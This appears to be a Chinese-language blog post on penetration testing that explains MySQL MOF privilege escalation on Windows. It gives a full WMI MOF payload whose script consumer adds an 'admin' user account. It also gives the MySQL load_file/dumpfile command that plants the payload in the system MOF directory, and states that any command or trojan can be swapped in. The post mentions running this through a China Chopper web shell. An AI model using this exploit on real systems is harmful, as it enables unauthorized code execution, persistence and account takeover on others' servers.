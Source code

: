 ```yaml
---
layout: post
title: "mysql mof 提权"
description: ""
category: 渗透测试
tags: [mysql]
---
```

{% include JB/setup %}


## 参考资料 ##

[mof运行远控](http://zone.wooyun.org/content/2273)

[windows写权限变成可执行权限的利用](http://zone.wooyun.org/content/1806)

[利用代码](http://zone.wooyun.org/content/1795)

[exploitdb](http://www.exploit-db.com/exploits/23083/)

## 利用代码 ##

1.找个可写目录，我这里是C:\recycler\，把如下代码写到nullevt.mof文件里（也就是他源码里的payload）：

#pragma namespace("\\\\.\\root\\subscription")

 
	instance of __EventFilter as $EventFilter
	{
    EventNamespace = "Root\\Cimv2";
    Name  = "filtP2";
    Query = "Select * From __InstanceModificationEvent "
    "Where TargetInstance Isa \"Win32_LocalTime\" "
    "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
	};

	instance of ActiveScriptEventConsumer as $Consumer
	{
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admin admin /add\")";
	};

	instance of __FilterToConsumerBinding
	{
    Consumer   = $Consumer;
    Filter = $EventFilter;
	};


注意上面的net.exe user admin admin /add，可以随便改的，想执行啥都行，有没有参数也都行，执行自己的马也行。
再然后，在菜刀里连接mysql数据库后执行：

	select load_file('C:\\RECYCLER\\nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';


## 分析 ##

本质上是写权限变可执行权限,将mof文件写入特定目录,导致其被执行.
